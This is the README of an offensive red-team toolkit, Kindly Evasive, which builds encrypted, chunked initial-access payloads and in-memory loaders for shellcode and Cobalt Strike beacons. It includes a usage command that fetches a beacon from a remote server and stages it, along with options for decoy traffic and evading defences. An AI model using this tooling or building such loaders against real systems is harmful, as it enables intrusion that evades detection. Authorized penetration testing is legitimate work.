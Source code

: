 

# Kindly Evasive

<div align="center">
  <img src="assets/kindlyevasive.jpg" width="25%" /><br />
</div>

<div align="center">
  <h1>Kindly Evasive</h1>
  <br/>

**Kindly Evasive** is a post-exploitation and Initial Access Payload (IAP) toolkit created by <a href="https://github.com/rottaj">@rottaj</a>
<br> It's designed for building and injecting payloads directly into memory. It allows you to efficiently manage payloads, facilitating seamless operations during engagements.

> :warning: The use of this tool for malicious purposes is illegal and unethical. Always ensure that you have explicit permission to use this tool in any environment.

</div>


## Features

### Builder
- **Payload Creation:** Build and inject configurations into a PE section that executes upon payload execution.
- **Payload Source:** Load unencrypted payloads from your local computer or a remote server.
- **Payload Encryption:** Encrypt payloads using various encryption methods.
- **Chunking:** Optionally separate the payload into multiple files (chunks) for enhanced flexibility.

### Payload Options
- **Shellcode Injection:** Support for injecting shellcode to maintain stealth and efficiency.
- **In-Memory PE Loader:** Features a PE loader capable of supporting Cobalt Strike beacons.

## Options

```plaintext
--help                       Display this help message.
--output-dir                 Full file path including file name to output payload to.
--verbose                    Print verbose output.
--debug                      Enables breakpoints and console output on the payload file.
```

### Encryption Options
```plaintext
--encryption-method          Specify encryption method (XOR, AES, RC4).
--encryption-key             Set the encryption key to be used.
```

### Payload Input Options
```plaintext
--local-file                 Load unencrypted payload file from local computer. Argument is the full file path to the payload file.
--remote-file                Fetch unencrypted payload file from remote server. Argument is the full URL to the server hosting the payload file.
```

### Payload Features
```plaintext
--payload-type               Specify type of payload (raw, dll, beacon).
--dummy-fetch                Make HTTP requests to dummy APIs alongside payload requests.
```

### Payload Delivery Options
```plaintext
--staging-server             URL of web server used to host initial access payloads after build is complete.
--payload-size               Size of payload in bytes.
--chunk-count                Split encrypted payload into multiple files. Example: --chunk 3 (will output 3 .bin files).
```

## Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/rottaj/KindlyEvasive.git
   cd KindlyEvasive 
   ```

2. Install required dependencies (if any).

3. Build the toolkit:
   ```bash
   cd KindlyBuilder
   cmake 
   ```

## Usage

To get started with Kindly Evasive, run the following command:

```bash
.\KindlyBuilder -h

.\KindlyBuilder.exe --output-dir C:\Payloads\testing.exe --encryption-method XOR --remote-file http://192.168.1.124:8080/beacon_x64.bin 
--payload-size 304128 --payload-type beacon --staging-server http://192.168.1.124:8080/ --chunk-count 3
```

## KindlyEvasive in action

:point_down: Some Gifs might take a some time to load.  :point_down:

![alt text](https://github.com/rottaj/KindlyEvasive/blob/main/assets/Delivery.gif?raw=true)
![alt text](https://github.com/rottaj/KindlyEvasive/blob/main/assets/Beaconing.gif?raw=true)
![alt text](https://github.com/rottaj/KindlyEvasive/blob/main/assets/Defender.png?raw=true)

## Disclaimer
Use this software responsibly and only in environments where you have legal permission.<br>
The author of this tool is not responsible for any misuse or damages caused.

## Contributing

Contributions are welcome! Please fork the repository and submit a pull request for any features or improvements.

## License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

---

For any questions or support, feel free to open an issue in the repository or reach out to the maintainers. Happy testing!
